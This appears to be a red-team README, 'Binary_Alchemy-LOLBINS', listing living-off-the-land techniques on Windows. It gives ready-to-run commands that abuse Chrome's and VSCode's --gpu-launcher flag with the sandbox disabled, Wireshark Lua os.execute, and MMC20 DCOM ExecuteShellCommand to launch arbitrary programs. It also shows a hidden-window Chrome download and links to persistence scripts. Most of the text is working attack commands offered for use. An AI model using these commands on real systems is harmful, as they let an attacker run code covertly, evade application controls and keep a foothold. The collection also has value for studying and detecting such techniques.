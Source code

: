 # Binary_Alchemy-LOLBINS
BinaryAlchemy is a project for collecting known and commonly found executables in action for red teamers.

# Execution
### Chrome
````

 & 'C:\Program Files\Google\Chrome\Application\chrome.exe' --silent-launch --disable-gpu-sandbox --gpu-launcher="calc.exe"
 & 'C:\Program Files\Google\Chrome\Application\chrome_proxy.exe' --silent-launch --disable-gpu-sandbox --gpu-launcher="calc.exe"

````
### VSCode
````
- & "C:\Program Files\Microsoft VS Code\Code.exe" --disable-gpu-sandbox --gpu-launcher="C:\Windows\system32\cmd.exe /c ping google.com &&"
- & "C:\Program Files\Microsoft VS Code\Code.exe" --disable-gpu-sandbox --gpu-launcher="calc.exe"

````

### Wireshark
````
& 'C:\Program Files\Wireshark\tshark.exe' -X lua_script:'<path of lua script>'
& 'C:\Program Files\Wireshark\wireshark.exe' -X lua_script:'<path of lua script>' (Wireshark also opens while executing)

lua file content
-- mention the binary that needs to be executed
 os.execute('C:\\Windows\\notepad.exe')
 ````
### MMC
````
**Required powershell with administrative privilege.**
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.application"))
$com.Document.ActiveView.ExecuteShellCommand("C:\windows\system32\notepad.exe",$null,$null,"7")
 ````
 
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Download
### Chrome
````

& ‘C:\Program Files\Google\Chrome\Application\chrome_proxy.exe’ — profile-directory=Default — incognito — chrome-frame — user-data-dir=”C:\Temp\Temp-chrome\” — window-size=0,0 — window-position=”0000,1000" <URL>

````
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------
# Persistence
### Windows Terminal Profile creation

````
 [Windows Terminal Profile Creator](https://github.com/Miragle-Hub/Persistence-in-Windows/blob/main/Persistence_P0C.ps1)

````
### LNK Shorcut
````
[Windows Shortcut Persistence Script](https://github.com/Miragle-Hub/Persistence-in-Windows/blob/main/Lnk%20Persistence.ps1)

````

